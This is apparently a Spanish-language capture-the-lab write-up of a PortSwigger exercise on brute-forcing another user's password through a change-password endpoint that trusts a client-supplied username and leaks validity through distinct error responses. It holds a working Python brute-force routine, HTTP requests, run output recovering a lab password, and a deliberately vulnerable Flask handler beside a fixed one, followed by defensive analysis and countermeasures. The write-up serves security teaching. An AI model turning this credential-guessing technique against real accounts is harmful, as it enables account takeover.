

# Writeup: Password brute-force via password change (PortSwigger)

- **Lab**: Password brute-force via password change
- **URL**: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change
- **Categoría**: Authentication / Brute-force vía endpoint secundario / Side-channel en mensajes de error
- **Dificultad**: Practitioner
- **Credenciales propias**: `wiener:peter`
- **Credenciales objetivo**: `carlos` (encontrado: `carlos:summer`)

---

## 1. Objetivo

Loguear como `carlos`. El login form tiene defensas (rate-limit, lockout). El endpoint de cambio de password (`POST /my-account/change-password`) no tiene esas defensas porque el threat model asume "usuario ya autenticado". Asimetría defensiva clásica. La vuln: el endpoint de change-password acepta `username` en el body (controlable por el cliente) y revela información sobre la corrección del `current-password` mediante distintos branches de error, convirtiéndose en oráculo de credenciales para cualquier user del sistema.

### El insight central

El endpoint de change-password procesa la request en orden lógico:
1. Sesión válida.
2. `current-password` corresponde al `username` indicado.
3. `new-password-1 == new-password-2`.
4. Update.

Si fallan en orden distinto, los mensajes de error revelan en qué etapa falló. Cuando submitís **`new-password-1` y `new-password-2` distintos** intencionalmente, fuerza al server a chequear primero el current password antes de comparar los nuevos:

- Current password **incorrecto** → server invalida la sesión y redirige a `/login` (302).
- Current password **correcto** → llega al check de "new1 == new2", falla ahí, devuelve `200` con `"New passwords do not match"`.

Esa diferencia es el oráculo binario. Iterando candidatos de password en `current-password`, podés enumerar el password real de carlos en pocos segundos: **el server de cambio de password no tiene rate-limit ni lockout contra current-password incorrecto**, sólo contra current-password en el flow de login.

### Por qué esta clase es peligrosa

El flow legítimo del cambio de password asume que el atacante ya superó el login (por eso tener una sesión). El defender concentra defensas en el login. Pero `current-password` validation re-introduce el chequeo de credenciales en un endpoint sin esas defensas, y si encima `username` es controlable por body, el endpoint pasa a ser un brute-force oracle universal disfrazado de "verificación de seguridad para evitar password change accidental". Anti-patrón clásico de **defensa-en-profundidad mal distribuida**: agregar capas de validación crea más superficies de ataque, no menos, si las capas no comparten las mismas defensas.

---

## 2. Reconocimiento

### 2.1 Mapear el flujo legítimo

Login con `wiener:peter`, panel `/my-account`, link "Change password". Cambio legítimo (current=peter, new=peter, confirm=peter):

```http
POST /my-account/change-password HTTP/2
Host: 0ac2006e0496cc308009266f0076001d.web-security-academy.net
Cookie: session=9IAIhPsEEWdDBJB1jcs8Ooa22pZTitvs
Content-Type: application/x-www-form-urlencoded

username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

Response: `200 OK` con `<p>Password changed successfully!</p>`.

Tres observaciones clave:

1. **`username` está en el body**. Controlable por el cliente. La pregunta inmediata: ¿el server matchea ese username con la sesión, o lo confía como input?
2. **No hay check de "new password debe diferir del actual"**: `peter` → `peter` se aceptó. Eso simplifica el brute-force porque cualquier valor en `new-password-*` sirve.
3. **No hay tokens CSRF visibles** en el body, ni token de auth-step adicional. El endpoint solo depende de la cookie de sesión.

### 2.2 Mapear los cuatro cuadrantes del oráculo

Para encontrar la asimetría que sirva de oráculo, mandar las cuatro combinaciones críticas con `new-password-1=A, new-password-2=B` (mismatched):

| Test | username | current-password | Resultado observado |
|---|---|---|---|
| A | wiener | peter (correcto) | `200` `"New passwords do not match"` |
| B | wiener | WRONG | `302 Location: /login` (sesión invalidada) |
| C | carlos | peter (random para carlos) | `302 Location: /login` |
| D | carlos | WRONG | `302 Location: /login` |

Análisis:

- **A vs B**: con tu propio user, current correcto da error informativo (200, "no coinciden"); current incorrecto kickea (302). Oráculo binario confirmado para wiener.
- **C y D**: con `username=carlos` y current incorrecto, mismo kick de 302. Es decir, **el server confía en `username` del body**, hace lookup contra carlos, valida el current contra el password real de carlos, y cuando falla aplica el mismo kick que con wiener.
- **Logical implication**: si lográramos un current correcto **para carlos** (usando su password real), entraríamos a la rama A pero con username=carlos: `200 "New passwords do not match"`. Eso sería el hit del brute-force.

### 2.3 Estimar costo del ataque

- **Wordlist**: PortSwigger ofrece ~100 candidatos canónicos. Reusable de labs anteriores.
- **Espacio**: 100 intentos.
- **Defensas en change-password**: no observadas (sin rate-limit, sin lockout). El kick por current incorrecto **invalida la sesión** del atacante, así que cada intento requiere re-login.
- **Costo por candidato**: 2 requests (login + change-password) ≈ 200 requests totales.
- **Tiempo esperado**: con 30 workers, segundos.

---

## 3. Resolución

### 3.1 Mecánica del ataque

```
Para cada candidato en wordlist:
  1. POST /login con wiener:peter -> session cookie fresca
  2. POST /my-account/change-password con session cookie, body:
       username=carlos&current-password=<CANDIDATO>&new-password-1=A&new-password-2=B
  3. Si response es 302 Location:/login -> wrong, siguiente
  4. Si response es 200 con "New passwords do not match" -> ¡hit!
```

### 3.2 Script Python

[`bruteforce.py`](./bruteforce.py) implementa el patrón con `ThreadPoolExecutor`. Núcleo:

```python
def try_password(host, target_user, attacker_user, attacker_pwd, candidate):
    # Re-login porque el server invalida la sesion en cada fallo
    session_cookie = login_wiener(host, attacker_user, attacker_pwd)
    s = make_session()
    r = s.post(f"https://{host}/my-account/change-password",
               cookies={"session": session_cookie},
               data={
                   "username": target_user,
                   "current-password": candidate,
                   "new-password-1": "A",
                   "new-password-2": "B",
               },
               allow_redirects=False, timeout=15)
    hit = (r.status_code == 200
           and b"New passwords do not match" in r.content)
    return candidate, r.status_code, hit
```

El discriminador: `r.status_code == 200 and b"New passwords do not match" in r.content`. Cualquier otra cosa (302, kick, etc.) es candidato wrong.

### 3.3 Ejecución

```bash
python3 bruteforce.py \
    --host 0ac2006e0496cc308009266f0076001d.web-security-academy.net \
    --workers 30
```

Salida real:

```
[*] Target: 0ac2006e0496cc308009266f0076001d.web-security-academy.net
[*] Atacando: carlos (con sesion de wiener)
[*] Wordlist: 100 candidatos, 30 workers
    25/100 probados, ultimo: 'shadow' status 200
    50/100 probados, ultimo: 'sunshine' status 200

[+] PASSWORD ENCONTRADO: summer
    Status: 200

=== Lab solved ===
  carlos:summer
```

Notar el `status 200` en candidatos wrong: esto se debe a que el `requests.Session()` por default sigue redirects, así que el 302 a /login se resuelve a un 200 final del login form. La detección por status no es fiable; **el discriminador real es el contenido** `"New passwords do not match"` en el body, que sólo aparece cuando el current-password matchea.

(En el script se setea `allow_redirects=False` para evitar el extra round-trip, pero igual algunas requests del pool pueden devolver 200 directamente si el server no kickea por algún edge case. La verificación por contenido es la robusta.)

### 3.4 Consumir el password

`POST /login` con `username=carlos&password=summer`:

```
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=3YzO1iRXwhqcdGMbmezIJncyeWalqiop
```

Visitar `/my-account` con esa sesión registra el solve en el server-side state del lab. Banner cambia de `is-notsolved` a `is-solved`.

---

## 4. Por qué funciona

### 4.1 Asimetría defensiva entre login y change-password

El defender pensó:

- **Login form**: superficie expuesta a internet, atacante anónimo. Defensas duras: rate-limit, lockout, captcha, fingerprint, alertas.
- **Change-password**: post-login, ya autenticado. "Sólo necesita validar current-password para confirmar identidad". No hace falta rate-limit porque "ya pasó el login".

El error: el endpoint de change-password **también es superficie expuesta** porque la sesión es barata (login ofrece passwords gratis para users válidos vía rate-limit de wiener, o como en este lab, `wiener:peter` se conoce). Y crítico: si `username` en body es honrado, el endpoint **no requiere** que el atacante conozca ningún password de la víctima — sólo requiere una sesión propia válida.

Resultado: change-password con `username` honrado del body es estrictamente más débil que el login (no tiene defensas) y estrictamente más útil para el atacante (devuelve oráculo informativo en lugar de respuesta uniforme post-lockout).

### 4.2 ¿Por qué `username` en el body es honrado?

Probable razón histórica: el form de cambio de password se reutiliza en distintos contextos (admin cambiando password de otros users, password reset que pasa username explícito, etc.). En lugar de tener formularios distintos, el equipo dev usa el mismo endpoint con `username` como input. Para los flows admin se chequea ownership; para el flow self-service se asume que el user solo cambia el suyo. Pero el chequeo de ownership está mal aplicado o ausente.

La fix correcta: nunca derivar el target user del body. Usar siempre `session['user_id']`. Si admin necesita cambiar password de otro, endpoint separado con permission check explícito.

```python
# Antipatron (este lab)
@app.route('/my-account/change-password', methods=['POST'])
def change_password_broken():
    target_user = request.form['username']  # cliente lo controla
    if not verify_current_password(target_user, request.form['current-password']):
        invalidate_session()  # kick
        return redirect('/login')
    if request.form['new-password-1'] != request.form['new-password-2']:
        return render_template('change-password.html',
                               error="New passwords do not match")
    update_password(target_user, request.form['new-password-1'])
    return render_template('change-password.html', message="Password changed!")

# Implementacion correcta
@app.route('/my-account/change-password', methods=['POST'])
@login_required
def change_password_safe():
    target_user_id = session['user_id']  # de sesion, no del body
    user = User.find(target_user_id)
    if not verify_current_password(user, request.form['current-password']):
        record_failed_attempt(user.id)  # base del rate-limit
        if too_many_failures(user.id):
            lock_account(user.id)
        return render_template('change-password.html',
                               error="Invalid request")  # mensaje uniforme
    if request.form['new-password-1'] != request.form['new-password-2']:
        return render_template('change-password.html',
                               error="Invalid request")  # mensaje uniforme
    user.set_password(request.form['new-password-1'])
    return render_template('change-password.html', message="Password changed!")
```

Cuatro diferencias clave:

1. `target_user_id` viene de la sesión, no del body. `username` en body se ignora o no existe.
2. Rate-limit y lockout **en este endpoint también**, no sólo en login.
3. Mensaje de error **uniforme** ("Invalid request") en cualquier rama de fallo, eliminando el oráculo.
4. Si el current-password es incorrecto, **no kickea la sesión**; sólo registra el intento. Kickear da una señal clara al atacante; mantener silencioso es mejor desde el punto de vista de detección.

### 4.3 Patrón general - Auth oracles en endpoints autenticados

Esta clase aparece más allá de password change:

- **Account verification**: endpoints que envían "código de verificación" si el username existe → revela validez del username.
- **Email change**: pedir "current password" para confirmar; si current incorrecto vs email no parsable, mensajes distintos → oráculo de credenciales.
- **Account deletion**: similar, revela password.
- **Two-factor disable**: pide current password para desactivar; oráculo similar.
- **API tokens revocation**: pide password para confirmar revocación.

Cualquier endpoint que (a) acepte un identificador de target controlable por el cliente y (b) revele información sobre la validez de credenciales mediante distintos branches de error es un oráculo. La regla universal: **la respuesta debe ser uniforme entre fallos**, idealmente sin distinguir tipo de fallo en el mensaje al cliente. Logging server-side puede distinguir para alertas internas.

### 4.4 La cuestión de la severidad del side-channel: kick vs error message

En este lab la diferencia es status code (302 vs 200). En otros la diferencia puede ser:

- **Length de la respuesta** (mensajes de error de longitud distinta).
- **Timing** (un check toma más cuanto más válido es el input).
- **Header** (`Set-Cookie` solo aparece en una rama).
- **Comportamiento downstream** (un email se envía o no).

La **fix uniforme** requiere atención a todos esos canales:

```python
def uniform_error_response():
    return Response(
        body="<html><body>Invalid request</body></html>",
        status=200,  # mismo status en cualquier rama
        headers={"Content-Length": "44"},  # length idéntico
        # SIN Set-Cookie ni cambios en sesión
    )

def constant_time_validate(...):
    # secrets.compare_digest u otra primitiva de timing constante
    ...
```

### 4.5 Diferencias con labs hermanos del cluster auth

| Lab | Vector | Endpoint | Discriminador |
|---|---|---|---|
| Username enumeration via different responses | Login form | POST /login | Mensaje "Invalid username" vs "Incorrect password" |
| Username enumeration via subtly different responses | Login form | POST /login | Punto/no-punto en mensaje de error idéntico-aparente |
| Username enumeration via response timing | Login form | POST /login | Tiempo de respuesta (bcrypt slow path solo si user existe) |
| Username enumeration via account lock | Login form | POST /login | Mensaje "lockout" solo aparece si user existe |
| Broken brute-force protection (IP block) | Login form | POST /login | Login exitoso resetea contador IP |
| **Password brute-force via password change (este)** | Endpoint **post-login** | POST /my-account/change-password | new-password mismatch revela current-password validity |

Cinco labs anteriores atacan el login form. Este sale de ese marco: el login form puede tener todas las defensas del mundo, pero si el atacante tiene **una sesión propia válida** (cualquier user) y un endpoint post-login con oráculo de credenciales, el ataque es trivial. Lección de diseño: **cualquier endpoint que valide credenciales debe tener las mismas defensas que el login**.

---

## 5. Resumen de la cadena



Tres ideas para llevarse:

1. **Defensas asimétricas crean superficies más débiles que protegidas**. Cada endpoint que valide credenciales necesita las defensas del login (rate-limit, lockout, mensajes uniformes). Sin esa simetría, el atacante migra el ataque al endpoint más débil.
2. **`username` en el body de un endpoint post-login es smell rojo**. La identidad del target debe venir de la sesión, no del cliente. Mismo patrón que IDOR, mass assignment, host header injection (lab anterior).
3. **Branches de error distinguibles son oráculos**. Cualquier diferencia entre fallos (status, length, timing, headers, side effects) es información explotable. La defensa es uniformidad de respuesta en todas las ramas de error.

---

## 6. Contramedidas

En orden de robustez:

1. **Target user de la sesión, no del body**: el endpoint de change-password sólo cambia el password del user dueño de la sesión. Para flows admin, endpoint separado con permission check explícito.
2. **Rate-limit y lockout también en change-password**: no concentrar defensas en login. Cualquier endpoint que valide credenciales tiene que tener rate-limit por user/sesión y lockout tras N fallos.
3. **Mensajes de error uniformes** entre todas las ramas de fallo: "Invalid request" para current incorrecto, new mismatch, formato inválido, etc. La distinción detallada va al log server-side, no al cliente.
4. **Validar todos los inputs antes de cualquier check**: rechazar la request si new1 != new2 antes de tocar el current-password. Eso elimina el oráculo (la rama "current incorrecto + new mismatch" deja de existir como path distinto).
5. **No invalidar sesión por fallo de current-password**: invalidar da señal al atacante. Mejor mantener la sesión y registrar el intento; si los intentos pasan un threshold, lockear la cuenta.
6. **MFA o re-auth out-of-band para cambios sensibles**: el "current password" no es el último check para cambios críticos; idealmente requerir TOTP/email confirmation. Eso elimina el endpoint como oráculo de credenciales solas.
7. **Detección anómala**: múltiples requests con `username` distinto al de la sesión, o ratio anómalo de mensaje "Incorrect" en change-password. Logging + alerta de SIEM.
8. **Protección en profundidad: bcrypt/argon2 para current-password check con timing constante**, evitando side channel temporal aunque otros canales se cierren.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Password brute-force via password change*. https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change
- PortSwigger Web Security Academy. (s.f.). *Authentication: Other mechanisms*. https://portswigger.net/web-security/authentication/other-mechanisms
- OWASP Foundation. (s.f.). *Authentication Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Forgot Password Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html
- MITRE Corporation. (2024). *ATT&CK Technique T1110.001: Brute Force - Password Guessing*. https://attack.mitre.org/techniques/T1110/001/
- MITRE Corporation. (2024). *ATT&CK Technique T1556: Modify Authentication Process*. https://attack.mitre.org/techniques/T1556/
- MITRE Corporation. (2024). *CWE-307: Improper Restriction of Excessive Authentication Attempts*. https://cwe.mitre.org/data/definitions/307.html
- MITRE Corporation. (2024). *CWE-204: Observable Response Discrepancy*. https://cwe.mitre.org/data/definitions/204.html
- MITRE Corporation. (2024). *CWE-208: Observable Timing Discrepancy*. https://cwe.mitre.org/data/definitions/208.html
- MITRE Corporation. (2024). *CWE-639: Authorization Bypass Through User-Controlled Key*. https://cwe.mitre.org/data/definitions/639.html
- NIST. (2017). *SP 800-63B: Digital Identity Guidelines - Authentication and Lifecycle Management*. https://pages.nist.gov/800-63-3/sp800-63b.html
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 6 (Attacking Authentication), §6.3 (Various Authentication Mechanisms).
- Writeups hermanos del cluster:
  - [`learning/portswigger/broken-bruteforce-protection-ip-block/writeup.md`](../broken-bruteforce-protection-ip-block/writeup.md)
  - [`learning/portswigger/username-enumeration-via-account-lock/writeup.md`](../username-enumeration-via-account-lock/writeup.md)
- Inventario interno: [`inventario/04-explotacion/credenciales/explotacion-brute-force-advanced.md`](../../../inventario/04-explotacion/credenciales/explotacion-brute-force-advanced.md)
